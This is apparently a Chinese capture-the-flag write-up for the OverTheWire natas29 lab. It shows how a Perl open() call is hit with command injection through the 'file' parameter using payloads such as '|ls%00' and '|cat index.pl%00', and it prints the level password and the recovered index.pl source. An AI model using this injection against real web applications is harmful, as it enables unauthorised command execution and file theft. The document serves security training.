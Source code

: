 ```
http://natas29.natas.labs.overthewire.org
username:natas29
password:airooCaiseiyee8he8xongien9euhe8b
```

访问目标站点，可以选择下拉框选项，这里点击 "perl underground" 后页面返回大量内容：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNNuBV8ezYj9rDLzEC5WvU6oGOUIXjXVIH6ILBcCialkkcov8qXAAtxqw/640?wx_fmt=png)

注意到参数名为 file，推测后台是根据传入的参数名再传递给 open() 函数来打开处理。

尝试下 open() 函数的命令注入，输入`|ls`，注意管道符在前面是有回显的：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNrt2AN4PwHFLhPrHNDeA7iagy3qrx9ibdNPgNfqVe4XWqEHo7n2cP3lPQ/640?wx_fmt=png)

风平浪静，肯定是姿势不对。推测下原因，用 open() 函数打开的文件一般是要有后缀名的，而选项中的这几个 file 参数值都是不带后缀名的，那么就应该是后台对 file 参数值和后缀名进行一个拼接操作再 open 的。如果是这样，就能利用 %00 截断来截断掉后面拼接的后缀名使 open() 函数能够正确执行注入的命令。

输入`|ls%00`：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcN3lKjt6aaWDWia0p89nFR4TNL74lDVwNTSEzC9icAr1lWEJP48FviaVW1A/640?wx_fmt=png)

没毛病，通过 %00 截断的方式命令成功执行了，页面列出了当前目录下的所有文件。

我们看下 index.pl 的源码，输入`|cat index.pl%00`：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNct7LrRWdunuQNSYot3WBE1hzYGJTDIUkubvRs5hXVlLmXdnka2pPpg/640?wx_fmt=png)

页面不太好看，直接看页面源码就得到 index.pl 的源码了：

```
#!/usr/bin/perl
use CGI qw(:standard);
print <<END;
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas29", "pass": "airooCaiseiyee8he8xongien9euhe8b" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<style>
#content {
    width: 1000px;
}
pre{
    background-color: #000000;
    color: #00FF00;
}
</style>
<h1>natas29</h1>
<div>
END
#
# morla /10111
# '$\_=qw/ljttft3dvu{/,s/./print chr ord($&)-1/eg'
#
# credits for the previous level go to whoever
# created insomnihack2016/fridginator, where i stole the idea from.
# that was a fun challenge, Thanks!
```